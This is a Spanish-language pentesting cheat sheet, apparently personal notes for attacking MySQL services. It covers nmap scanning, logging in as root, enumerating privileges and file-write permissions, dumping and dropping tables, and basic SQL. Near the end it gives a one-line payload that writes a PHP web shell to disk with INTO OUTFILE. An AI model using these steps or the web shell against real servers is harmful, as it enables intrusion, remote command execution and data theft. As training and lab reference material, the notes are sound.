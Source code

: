 # Relacionarse

### Scan

    sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*

### Conectar

    mysql -u root -p'root' -h 192.168.50.16 -P 3306 --ssl=FALSE

### Version

    select version();
### ver privilegios:
    SHOW GRANTS;

### Leer variables de entorno:
    SHOW VARIABLES LIKE '<variable>';

### Ver si tenemos permisos para relacionarnos con archivos
    SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"

### Ver dbs

    show databases;

### Ver tablas

    show tables;

### ver estructura de una tabla:
    DESCRIBE <tabla>;
    
### Dumpear datos de una tabla

    select * from <tabla>

### Buscar un dato en base a un patrón (coincidencia de letras en un nombre, etc):
    SELECT * FROM <tabla> WHERE <campo> LIKE <condición >

### Eliminar una tabla de un servidor:
    DROP TABLE <tabla>;

---
# Creacion

### crear una DB:
    CREATE DATABASE "nombre";

### insertar un registro en una tabla:
    INSERT INTO table_name VALUES (column1_value, column2_value, column3_value, ...);

---

# Modificar datos
### Modificar una tabla(nombre, campos, agregar o eliminar una columna)
    ALTER TABLE <tabla> ADD <nombre_columna> <tipo_de_valor>;
    ALTER TABLE <tabla> RENAME COLUMN <columna_actual> TO <nuevo_nombre>;
    ALTER TABLE <tabla> MODIFY <columna a modificar> <tipo de dato al que se cambia>;
    ALTER TABLE <tabla> DROP <columna>



    

si somos DBA y sabemos cómo acceder a los archivos desde un servicio web, podemos crear una shell:
SELECT '<?php system($_GET[1]); ?>' INTO OUTFILE 'path_to_file';



el resto en:
https://github.com/LaPorota/LaPorota_suite/blob/main/sqli
